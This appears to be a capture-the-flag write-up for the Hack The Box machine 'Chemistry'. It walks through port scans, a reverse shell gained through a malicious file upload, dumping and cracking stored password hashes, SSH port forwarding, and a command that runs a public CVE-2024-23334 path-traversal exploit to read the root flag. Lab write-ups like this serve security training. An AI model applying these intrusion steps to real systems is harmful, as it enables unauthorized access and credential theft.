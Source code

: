 ```yaml
---
title: HTB Chemistry - Writeup
description: Easy Linux Machine
date: 2025-02-20
image: cover.png
categories:
  - Writeups
tags:
  - HTB
  - Easy
  - Linux
---
```

Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```
![Image 1](1.png)
once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```
![Image 2](2.png)
Now, the scan shows that the machine is hosting a web server with Python, we can take a look at the website to investigate more using burpsuite as a proxy to intercept all the traffic.
Register an account and login to it. 
### User Flag
There's an Arbitrary code execution vulnerability in the dashboard, allowing us to upload a maliciously crafted cfi file that we can use to upload and execute a reverse shell
https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
Just upload it and view it to execute the reverse shell

Once obtained the shell, let's enumerate the contents in the directory
![Image 3](3.png)

There's a users table where they store the credentials
```sh
sqlite3 database.db 'select * from user;'
```
![Image 4](4.png)

You can crack it with hashcat
```sh
hashcat -m 0 creds.txt rockyou.txt --user
```
You can try the credentials you obtained to login to the dashboard, maybe they used the same credentials to login to ssh

![Image 5](5.png)

rosa... why?
anyways, here's your user flag
```sh
cat user.txt
```

### Root Flag
Find other ports that the host is using but aren't public 
```bash
netstat -tuln
```
![Image 6](6.png)

Using port forward, we can see the contents of that page
```sh
ssh -L 5555:localhost:8080 rosa@10.10.11.38
```
![Image 7](9.png)

we can also use whatweb to see the technologies that the page uses
```sh
whatweb http://localhost:5555
```
![Image 8](8.png)

look for directories with gobuster

![Image 9](7.png)

looking for vulnerabilities of the website technologies you can find the CVE-2024-23334
for the **Aiohttp** version that the website is using, here's a python script that exploits it:
https://github.com/wizarddos/CVE-2024-23334
```sh
python exploit.py -u "http://localhost:5555" -f "/root/root.txt" -d "/assets"
```
![Image 10](10.png)

and you got the root flag!!

### Conclusion
This machine covers topics like LFI, port forwarding, looking for CVEs and password cracking.

![Final](11.png)

<mark>Hope you enjoy it and Happy Hacking!</mark>
